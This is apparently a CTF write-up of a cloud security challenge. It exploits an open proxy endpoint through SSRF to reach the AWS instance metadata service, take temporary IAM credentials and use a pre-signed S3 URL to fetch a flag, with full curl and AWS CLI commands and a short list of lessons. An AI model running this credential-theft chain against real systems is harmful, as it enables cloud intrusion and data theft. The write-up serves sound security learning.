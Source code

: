 ```yaml
---
layout: post
title: "# 🕵️‍♂️ Cracking Cloud Champions Challenge 01: AWS Metadata Abuse and Pre-Signed URL Exfiltration"
date: 2025-07-30
---
```


---

## 🧩 The Setup

The challenge, hosted at `https://challenge01.cloud-champions.com`, presents a typical cloud CTF puzzle focused on AWS metadata exposure and misconfigured internal APIs. The goal: extract a flag in the form of `WIZ_CTF_...` from an S3 bucket that is protected by an AWS **Data Perimeter**.

At first glance, the application exposes a **Spring Boot Actuator** instance behind a `/proxy` endpoint. This endpoint allows arbitrary HTTP forwarding, including internal services and the AWS metadata IP `169.254.169.254`.

---

## 🧪 Step 1 – Exploring Spring Boot Actuator

To verify if any Actuator endpoints were exposed:

```bash
curl -u ctf:88sPVWyC2P3p "https://challenge01.cloud-champions.com/proxy?url=http://127.0.0.1:8080/actuator"
```

We saw familiar endpoints like:

```
/actuator/health
/actuator/mappings
/actuator/env
```

But `/actuator/env` returned a **418 I'm a teapot** error with a hint that we're going in the wrong direction if the payload is too large. So we moved on.

---

## 🔍 Step 2 – Using the Proxy to Hit AWS Metadata (IMDSv2)

With metadata version v2 enabled, we needed to fetch a token first.

```bash
curl -u ctf:88sPVWyC2P3p -X PUT \
  -H "X-aws-ec2-metadata-token-ttl-seconds: 21600" \
  -d "url=http://169.254.169.254/latest/api/token" \
  https://challenge01.cloud-champions.com/proxy
```

We received a token:

```
AQAEAMREd0jlW2HXr4VmnEEYkpn-q9xSpPCswjyKtNTW0P1Vg4_vHg==
```

Now we could fetch the IAM role name:

```bash
curl -u ctf:88sPVWyC2P3p -H "X-aws-ec2-metadata-token: $TOKEN" \
  "https://challenge01.cloud-champions.com/proxy?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"
```

Response:

```
challenge01-5592368
```

And then we retrieved the temporary credentials:

```bash
curl -u ctf:88sPVWyC2P3p -H "X-aws-ec2-metadata-token: $TOKEN" \
  "https://challenge01.cloud-champions.com/proxy?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/challenge01-5592368"
```

✅ Success! We got:
- `AccessKeyId`
- `SecretAccessKey`
- `Token`

---

## 💼 Step 3 – Exporting Temporary Credentials

```bash
export AWS_ACCESS_KEY_ID=ASIAXXXXX
export AWS_SECRET_ACCESS_KEY=JZ8eXXXXX
export AWS_SESSION_TOKEN=IQoJb3JpZ2luX2Vj...
```

---

## 🔓 Step 4 – Accessing the S3 Bucket

We generated a pre-signed URL using AWS CLI:

```bash
aws s3 presign s3://challenge01/private/flag.txt --region us-east-1
```

This gave us a long pre-signed URL that looked like:

```
https://challenge01-470f711.s3.amazonaws.com/private/flag.txt?X-Amz-Algorithm=...
```

---

## 🛠️ Step 5 – Using the Proxy to Retrieve the Flag

We URL-encoded the full pre-signed URL and used:

```bash
curl -u ctf:88sPVWyC2P3p \
  "https://challenge01.cloud-champions.com/proxy?url=<encoded-url-here>"
```

Finally, the response:

```
WIZ_CTF_s3_metadata_token_misconfig_success
```

🎉 **Flag captured!**

---

## 🔒 What We Learned

- Misconfigured Spring Boot Actuator endpoints can expose internal service access.
- If a proxy forwards headers and allows arbitrary URLs, it becomes a path to **SSRF**.
- AWS IMDSv2 metadata access can be exploited if not locked down properly.
- Pre-signed S3 URLs can bypass VPC or perimeter controls — if you have the right IAM context.
- Always assume the attacker has a foothold if you're exposing `/proxy`.

---

## 📚 References

- [AWS IMDSv2 Documentation](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/configuring-instance-metadata-service.html)
- [Spring Boot Actuator Security](https://docs.spring.io/spring-boot/docs/current/reference/html/actuator.html#actuator.security)
- [AWS Data Perimeter](https://aws.amazon.com/blogs/security/how-to-use-aws-identity-and-access-management-iam-and-amazon-s3-to-securely-control-access-to-aws-service-apis/)

---

## 🧠 Final Thoughts

Challenges like this one mirror real-world misconfigurations that can lead to data exfiltration, privilege escalation, or lateral movement. They’re not just fun puzzles — they’re reality checks for our cloud security postures.
